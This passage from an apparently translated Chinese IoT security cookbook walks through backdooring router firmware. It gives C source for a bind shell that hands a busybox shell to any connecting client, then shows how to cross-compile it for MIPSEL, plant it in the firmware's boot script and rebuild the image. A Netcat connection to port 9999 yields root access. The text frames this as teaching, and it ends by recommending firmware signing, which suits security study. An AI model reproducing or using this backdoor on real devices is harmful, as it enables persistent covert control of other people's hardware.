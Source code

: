 ```
   server.sin_family = AF_INET; 
   server.sin_port = htons(SERVER_PORT); 
   server.sin_addr.s_addr = INADDR_ANY; 

   serverfd = socket(AF_INET, SOCK_STREAM, 0); 
   bind(serverfd, (struct sockaddr *)&server, sizeof(server)); 
   listen(serverfd, 1); 

    while (1) { 
         len = sizeof(struct sockaddr); 
         clientfd = accept(serverfd, (struct sockaddr *)&client, &len); 
        server_pid = fork(); 
        if (server_pid) { 
         write(clientfd, banner,  strlen(banner)); 
           for(; i <3 /*u*/; i++) dup2(clientfd, i); 
           execve("/bin/busybox", args, (char *) 0); 
           close(clientfd); 
         } close(clientfd); 
    } return 0; 
} 
```

一旦我们有了代码，我们就可以使用 Buildroot for MIPSEL 并使用使用 Buildroot 构建的交叉编译器编译它。我们将不讨论建立 Buildroot 的过程，因为这个过程非常简单，并且已经在文档中进行了记录。

4.  一旦我们为 MIPSEL 创建了交叉编译器，我们就可以将`bindshell.c`编译成`bindshell`二进制文件，然后将其放入固件的提取文件系统中：

```
./mipsel-buildroot-linux-uclibc-gcc bindshell.c -static -o bindshell  
```

下一步是寻找可以在文件系统中放置此二进制文件的位置，以及如何在启动期间自动启动。这可以通过查看在启动过程中自动调用的脚本之一来完成。

5.  查看文件系统后，我们可以在`etc/templates/`中添加二进制文件，并可以从位于`/etc/scripts/`的名为`system.sh`的脚本中引用它，如下面的屏幕截图所示：

![](Images/8e331f34-ed6f-4667-b80c-5c87907c098f.png)

6.  现在，让我们继续使用`build-firmware.sh`脚本基于此修改构建新固件，如以下屏幕截图所示：

![](Images/c913fb64-af2c-4e09-8fb2-c8e2d654b37e.png)

一旦完成构建过程，它将创建新固件并将其作为名为`new-firmware.bin`的文件放置在位置`firmware-name/`。

7.  一旦我们有了新的固件映像，我们就可以将这个固件复制到我们的 FAT 目录并进行仿真，以验证我们添加的后门是否正常工作。这可以使用我们前面用于仿真的相同步骤来完成。这也显示在以下屏幕截图中：

![](Images/aac333e5-dc78-4677-adf0-ed215872c634.png)

从前面的屏幕截图可以看出，它给了我们一个`192.168.0.1`的 IP 地址，我们现在可以尝试访问该地址。但更有趣的是，让我们看看我们放在固件中的后门 bindshell 是否处于活动状态。

8.  让我们试着在前面的 IP 上运行一个 Netcat 到端口`9999`，看看它是否工作：

![](Images/3cea80f6-a14b-4bd8-b90e-c556ff4847ac.png)

现在我们在设备上有了一个完整的根 shell，因为我们修改了一个后门并将其放入固件中。从这里，我们可以修改其他设备配置，或者简单地使用它远程访问运行我们修改的恶意固件的任何设备。

# 它是如何工作的。。。

修改固件的功能非常强大，对攻击者非常有用。这使攻击者能够绕过保护机制，删除安全功能，并执行更多操作。由于诸如 FMK 之类的工具，攻击者极易将自己的恶意软件或后门添加到任何物联网设备固件中，然后世界任何地方的用户都可以使用这些固件。

这也是固件签名和校验和验证对于防止恶意或修改固件引起的攻击极其重要的原因之一。